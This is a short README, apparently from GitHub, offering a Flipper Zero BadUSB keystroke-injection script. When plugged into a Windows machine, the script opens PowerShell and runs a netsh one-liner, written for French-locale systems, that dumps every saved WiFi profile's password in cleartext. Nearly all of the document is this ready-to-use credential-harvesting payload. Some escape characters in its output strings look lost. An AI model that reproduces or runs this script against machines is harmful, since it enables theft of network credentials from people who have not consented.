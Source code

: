 # Badkb-USB-Flip-WIFI-grab




Allows you to recover the backup wifi passwords (already connected) for a machine.



# Script : 

    DELAY 1000
    GUI r
    DELAY 1000
    STRING powershell
    ENTER
    DELAY 2000
    STRING netsh wlan show profiles | Select-String "Profil Tous les utilisateurs" | ForEach-Object { $n = ($_ -split ":")[1].Trim(); $p = netsh wlan show profile name="$n" key=clear; $key = ($p | Select-String         "Contenu de la clé"); if ($key) { $key = $key.ToString().Split(":")[1].Trim(); Write-Output "nSSID: $nnMot de passe: $key" } else { Write-Output "nSSID: $nnPortail Captif" } }
    ENTER
